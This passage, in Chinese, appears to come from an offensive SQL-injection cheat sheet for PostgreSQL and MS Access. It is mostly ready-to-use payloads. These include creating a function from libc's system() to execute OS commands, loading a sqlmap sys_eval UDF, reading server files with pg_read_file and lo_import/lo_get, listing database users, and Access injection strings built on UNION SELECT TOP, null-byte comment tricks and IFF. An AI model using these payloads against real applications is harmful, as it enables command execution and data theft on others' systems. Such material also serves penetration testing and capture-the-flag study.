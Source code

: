     - 版本 8.2 以前
        - `CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;`
        - `select system('id');`
    - UDF
        - sqlmap udf: https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql
        - `CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;`
        - `SELECT sys_eval("id");`
- 其它
    - version()
    - current\_database()
    - user
        - current_user
        - `SELECT usename FROM pg_user;`
    - getpgusername()
    - current\_schema
    - current\_query()
    - inet\_server\_addr()
    - inet\_server\_port()
    - inet\_client\_addr()
    - inet\_client\_port()
    - type conversion
        - `cast(count(*) as text)`
    - `md5('abc')`
    - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
    - `pg_read_file(filename, offset, length)`
        - 讀檔
        - 只能讀 data_directory 下的
    - `pg_ls_dir(dirname)`
        - 列目錄內容
        - 只能列 data_directory 下的
    - PHP 的 `pg_query()` 可以多語句執行
    - `lo_import()`, `lo_get()` 讀檔
        - `select cast(lo_import('/var/lib/postgresql/data/secret') as text)` => `18440`
        - `select cast(lo_get(18440) as text)` => `secret_here`

## MS Access

- 沒有註解
    - 某些情況可以用 `%00`, `%16` 來達到類似效果
- 沒有 Stacked Queries
- 沒有 Limit
    - 可以用 `TOP`, `LAST` 取代
    - `'UNION SELECT TOP 5 xxx FROM yyy%00`
- 沒有 Sleep, Benchmark, ...
- 支援 Subquery
    - `'AND (SELECT TOP 1 'xxx' FROM table)%00`
- String Concatenation
    - `&` (`%26`)
    - `+` (`%2B`)
    - `'UNION SELECT 'aa' %2b 'bb' FROM table%00`
- Ascii Function
    - `ASC()`
    - `'UNION SELECT ASC('A') FROM table%00`
- IF THEN
    - `IFF(condition, true, false)`
    - `'UNION SELECT IFF(1=1, 'a', 'b') FROM table%00`
- https://insomniasec.com/cdn-assets/Access-Through-Access.pdf
